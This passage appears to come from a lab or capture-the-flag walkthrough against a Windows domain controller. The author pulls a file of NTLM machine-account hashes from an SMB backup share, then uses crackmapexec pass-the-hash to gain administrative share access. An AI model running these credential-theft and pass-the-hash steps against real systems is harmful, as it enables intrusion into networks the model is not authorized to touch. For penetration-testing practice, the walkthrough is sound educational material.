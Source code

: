 ```bash
smbclient \\\\10.0.4.17\\backup -U 'file_svc' -p
```
Info:
```
Password for [WORKGROUP\file_svc]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jun 17 19:41:17 2024
  ..                                 DR        0  Mon Jun 17 19:44:56 2024
  backup_extract.txt                  A      892  Mon Jun 17 10:41:05 2024

		12942591 blocks of size 4096. 10771796 blocks available
smb: \> get backup_extract.txt 
getting file \backup_extract.txt of size 892 as backup_extract.txt (79.2 KiloBytes/sec) (average 79.2 KiloBytes/sec)
```
Inside the `backup` share we find a `.txt` file, which we copy to our attacker machine for further inspection.

Info:
```
WebServer$:2119:aad3b435b51404eeaad3b435b51404ee:c47b45f5d4df5a494bd19f13e14f7902:::
DatabaseServer$:2120:aad3b435b51404eeaad3b435b51404ee:406b424c7b483a42458bf6f545c936f7:::
CitrixServer$:2122:aad3b435b51404eeaad3b435b51404ee:48fc7eca9af236d7849273990f6c5117:::
FileServer$:2065:aad3b435b51404eeaad3b435b51404ee:e41da7e79a4c76dbd9cf79d1cb325559:::
MailServer$:2124:aad3b435b51404eeaad3b435b51404ee:46a4655f18def136b3bfab7b0b4e70e3:::
BackupServer$:2125:aad3b435b51404eeaad3b435b51404ee:46a4655f18def136b3bfab7b0b4e70e3:::
ApplicationServer$:2126:aad3b435b51404eeaad3b435b51404ee:8cd90ac6cba6dde9d8038b068c17e9f5:::
PrintServer$:2127:aad3b435b51404eeaad3b435b51404ee:b8a38c432ac59ed00b2a373f4f050d28:::
ProxyServer$:2128:aad3b435b51404eeaad3b435b51404ee:4e3f0bb3e5b6e3e662611b1a87988881:::
MonitoringServer$:2129:aad3b435b51404eeaad3b435b51404ee:48fc7eca9af236d7849273990f6c5117:::
```

The file `backup_extract.txt` contains what appear to be hashes of users and services.

One entry that stands out is the account `FileServer$`, since we previously discovered it through its `TGT`. We test whether its `hash` can be used as a password against the `SMB` service, and confirm that it works.

```bash
crackmapexec smb 10.0.4.17 -u FileServer$ -H 'aad3b435b51404eeaad3b435b51404ee:e41da7e79a4c76dbd9cf79d1cb325559' --shares
```
Info:
```
SMB         10.0.4.17       445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         10.0.4.17       445    DC01             [+] SOUPEDECODE.LOCAL\FileServer$:e41da7e79a4c76dbd9cf79d1cb325559 (Pwn3d!)
SMB         10.0.4.17       445    DC01             [+] Enumerated shares
SMB         10.0.4.17       445    DC01             Share           Permissions     Remark
SMB         10.0.4.17       445    DC01             -----           -----------     ------
SMB         10.0.4.17       445    DC01             ADMIN$          READ,WRITE      Remote Admin
SMB         10.0.4.17       445    DC01             backup                          
SMB         10.0.4.17       445    DC01             C$              READ,WRITE      Default share
SMB         10.0.4.17       445    DC01             IPC$            READ            Remote IPC
SMB         10.0.4.17       445    DC01             NETLOGON        READ,WRITE      Logon server share 
SMB         10.0.4.17       445    DC01             SYSVOL          READ            Logon server share 
SMB         10.0.4.17       445    DC01             Users
```
